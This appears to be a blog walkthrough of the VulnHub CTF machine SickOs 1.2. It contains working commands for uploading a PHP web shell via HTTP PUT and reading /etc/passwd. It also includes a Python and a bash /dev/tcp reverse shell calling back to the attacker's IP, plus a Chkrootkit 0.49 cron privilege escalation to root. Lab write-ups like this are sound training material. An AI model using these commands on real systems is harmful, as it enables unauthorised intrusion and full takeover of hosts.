 ```yaml
---
layout: post
title: SickOs 1.2 (VulnHub) - Complete Walkthrough and Guide
subtitle: SickOS 1.2 is a CTF (Capture the Flag) vulnerable machine from VulnHub which objective is to gain the highest privileges on the system.
comments: false
categories:
- WalkThroughs 
tags:
- vulnhub
---
```


Here is a complete walkthrough and tutorial on how to hack and penetrate SickOs 1.2 of VulnHub.

![SickOs 1.2 VulnHub](https://i.imgur.com/Vg48A3C.jpg){: .mx-auto.d-block :}

**SickOS 1.2 Description:**

SickOS 1.2 is a CTF (Capture the Flag) vulnerable machine from VulnHub which objective is to gain the highest privileges on the system and get the /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt file.

**Author:** [D4rk](https://twitter.com/D4rk36)

**Download:** [VulnHub](https://www.vulnhub.com/entry/sickos-12,144)

### SickOs 1.2 Walkthrough
SickOs 1.2 was found by conducting an Nmap ping sweep.

~~~
nmap -sP 192.168.216.1-254
~~~

![sickos_1-2_screenshot1](https://i.imgur.com/fCLNURz.jpg){: .mx-auto.d-block :}

Doing a quick Nmap scan, it was found that SickOS 1.2 port 22 and port 80 was open.

~~~
nmap -n 192.168.216.128
~~~

![sickos_1-2_screenshot2](https://i.imgur.com/jgotwXr.jpg){: .mx-auto.d-block :}

Browsing to http://192.168.216.128 shows that it was hosting a website.

~~~
http://192.168.216.128
~~~

![sickos_1-2_screenshot3](https://i.imgur.com/Hj1yjL9.jpg){: .mx-auto.d-block :}

**[Wfuzz](http://www.edge-security.com/wfuzz.php)** - a tool for brute-forcing web applications was used to find and brute-force for any directories on SickOS 1.2 website.

Using Wfuzz, a directory named "**test**" was found.

~~~
wfuzz --hc 404 -c -z file,/usr/share/wfuzz/wordlist/general/big.txt http://192.168.216.128/FUZZ
~~~

![sickos_1-2_screenshot4](https://i.imgur.com/5Vv0v1T.jpg){: .mx-auto.d-block :}

Browsing to the "**test**" directory showed a directory listing web page and that SickOS 1.2 website was running on **lighttpd/1.4.28**.

~~~
http://192.168.216.128/test/
~~~

![sickos_1-2_screenshot5](https://i.imgur.com/8z3b4ce.jpg){: .mx-auto.d-block :}

Various exploits and vulnerabilities on **lighttpd 1.4.28** was tested, however none of it worked for SickOs 1.2.

Upon checking for HTTP methods available on the directory "**test**" using cURL, it was found that it can be potentially vulnerable to HTTP PUT method exploit.

~~~
curl -v -X OPTIONS http://192.168.216.128/test
~~~

![sickos_1-2_screenshot6"](https://i.imgur.com/HQA45XB.jpg){: .mx-auto.d-block :}

Learning this, SickOS 1.2 was tested if it was possible to create a simple backdoor web shell using the HTTP PUT method exploit.

~~~
curl -v -X PUT -d '&lt;?php system($_GET["cmd"]); ?&gt;' http://192.168.216.128/test/shell.php
~~~

![sickos_1-2_screenshot7](https://i.imgur.com/8H7CPaX.jpg){: .mx-auto.d-block :}

The result shows that SickOS 1.2 was indeed vulnerable to HTTP PUT method exploit.

Browsing to the test directory showed that the webshell was successfully created.

~~~
http://192.168.216.128/test
~~~

![sickos_1-2_screenshot8](https://i.imgur.com/tYsC7uT.jpg){: .mx-auto.d-block :}

The webshell was then tested if it was properly working by reading the "**/etc/passwd**" file of SickOS 1.2.

Seeing the contents of "**/etc/passwd/**" file proves that the web shell wasindeed working.

~~~
http://192.168.216.128/test/shell.php?cmd=cat%20/etc/passwd
~~~

![sickos_1-2_screenshot9](https://i.imgur.com/MzhRP2D.jpg){: .mx-auto.d-block :}

The webshell was then used to run areverse shell Python command while a Netcat was opened to listen for incoming connections. This resulted on gaining a shell with low privilege access.

~~~
nc -nlvp 443

http://192.168.216.128/test/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket%28socket.AF_INET,socket.SOCK_STREAM%29;s.connect%28%28%22192.168.216.129%22,443%29%29;os.dup2%28s.fileno%28%29,0%29;%20os.dup2%28s.fileno%28%29,1%29;%20os.dup2%28s.fileno%28%29,2%29;p=subprocess.call%28[%22/bin/sh%22,%22-i%22]%29;%27
~~~

![sickos_1-2_screenshot10](https://i.imgur.com/gSFdG6U.jpg){: .mx-auto.d-block :}

![sickos_1-2_screenshot11](https://i.imgur.com/dnF1Hwj.jpg){: .mx-auto.d-block :}

The low privilege shell was used to enumerate SickOS 1.2 which resulted on finding that a **Chkrootkit version 0.49** was running on **Crontab** through "**/etc/cron.daily**".

~~~
cd /etc/cron.daily

ls -alF

chkrootkit -V
~~~

![sickos_1-2_screenshot15](https://i.imgur.com/RXqPlna.jpg){: .mx-auto.d-block :}

(https://www.exploit-db.com/exploits/38775) Chkrootkit 0.49 privilege escalation exploit</a> was then used to gain complete administrative access on SickOS 1.2.

A bash script named "**update**" was then created on the "**/tmp**" directory and changed its permissions to **777** to make it executable and remove any permission restriction while a Netcat listener was opened to wait for incoming connections.

~~~
printf '#!/bin/bash\nbash -i &gt;&amp; /dev/tcp/192.168.216.129/443 0&gt;&amp;1\n' &gt;&gt; /tmp/update

chmod 777 /tmp/update

nc -nlvp 443
~~~

![sickos_1-2_screenshot12](https://i.imgur.com/izCgJ4I.jpg){: .mx-auto.d-block :}

After waiting for the Chkrootkit to run via Crontab, the root shell was obtained.

![sickos_1-2_screenshot13](https://i.imgur.com/6YSjFpu.jpg){: .mx-auto.d-block :}

Browsing to the root directory, the target **7d03aaa2bf93d80040f3f22ec6ad9d5a.txt** has been found.

{: .box-success}
7d03aaa2bf93d80040f3f22ec6ad9d5a.txt contents:

{: .box-success}
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

{: .box-success}
Thanks for giving this try.

{: .box-success}
@vulnhub: Thanks for hosting this UP!.

![sickos_1-2_screenshot14](https://i.imgur.com/ka7dCVh.jpg){: .mx-auto.d-block :}

SickOs 1.2 of VulnHub has been successfully hacked and exploited!
